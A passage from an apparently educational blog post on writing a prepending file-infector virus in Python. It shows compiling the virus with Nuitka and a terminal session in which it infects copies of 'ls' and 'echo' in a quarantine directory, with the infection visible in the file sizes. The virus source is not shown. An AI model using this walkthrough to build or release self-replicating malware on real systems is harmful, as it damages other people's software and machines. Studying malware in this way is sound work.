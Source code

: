 What's that? Create a statically linked binary, you say? That's a fantastic idea, which will result in a binary that's between 20 and 30 **MB** large! Our dynamically linked one is large enough as is (line **15** shows the byte count).

So while I would consider a static `Python` binary for a Post-Exploitation-Framework, because of the sheer comfort of writing it, there's something distasteful about doing our little experiments with so much _stuff_ attached. We're still going to test our dynamically linked version, but the virus is called Doomsday **Preppers** for a reason!


#### First outbreak {#first-outbreak}

Now that we have a way of compiling our script, let's just do that and start a controlled outbreak:

```txt { linenos=true, linenostart=1, hl_lines=["16","17","26","27"] }
$ nuitka3 ../manual_prepend/doomsday_preppers.py
----snip----
Nuitka:INFO: Successfully created 'doomsday_preppers.bin'.
$ rm -rf doomsday_preppers.build/

$ ls -sh1
total 784K
784K doomsday_preppers.bin

$ cp /bin/echo .
$ cp /bin/ls .

$ ls -sh1
total 972K
784K doomsday_preppers.bin
 44K echo
144K ls

$ ./doomsday_preppers.bin
[+] About to infect /home/frederic/git/vx/the_zoo/echo
[+] About to infect /home/frederic/git/vx/the_zoo/ls

$ ls -sh1
total 2,5M
784K doomsday_preppers.bin
828K echo
928K ls
```

After compiling our virus, we copy some system binaries (namely `ls` and `echo`) into our quarantine directory. We can see just how small those programs are in lines **16** and **17**.

Running our virus binary conveniently gives us feedback about what happened. I wish every virus writer was as polite as we are!
According to the output of our virus, everything should have gone as expected. And indeed, checking the file sizes in lines **26** and **27**, they've grown quite a bit.

Our infection routine seems to be working if we run the original virus, but what about running an infected binary. Will it infect other binaries and execute the host code?


[^fn:1]: A small nod to the wonderful [DJ Smokey](https://soundcloud.com/smoke-gang-beatz/corona-doomsday-preppers-w-dj-smokey-soudiere-dj-kraft-dinna).
[^fn:2]: That's precisely why we need to keep track of the `VIRUS_SIZE`.
[^fn:3]: 🎩
[^fn:4]: Which conveniently lets us [specify](https://docs.python.org/3/library/os.html#os.execve) a file descriptor instead of a path for the file to be executed since `Python 3.3`.
[^fn:5]: It's _not_ the lack of error handling. That's missing intentionally so that things stay readable.
[^fn:6]: That doesn't mean there are no viruses in script form. Have a look at this [talk](https://www.youtube.com/watch?v=2Ra1CCG8Guo) by Ben Dechrai.
[^fn:7]: <https://www.youtube.com/watch?v=4jLT7GQYNhI&t=90s>
[^fn:8]: I'm not being overmodest, I really have no clue.
[^fn:9]: You can find it [here](https://sourceforge.net/projects/elftoolchain/).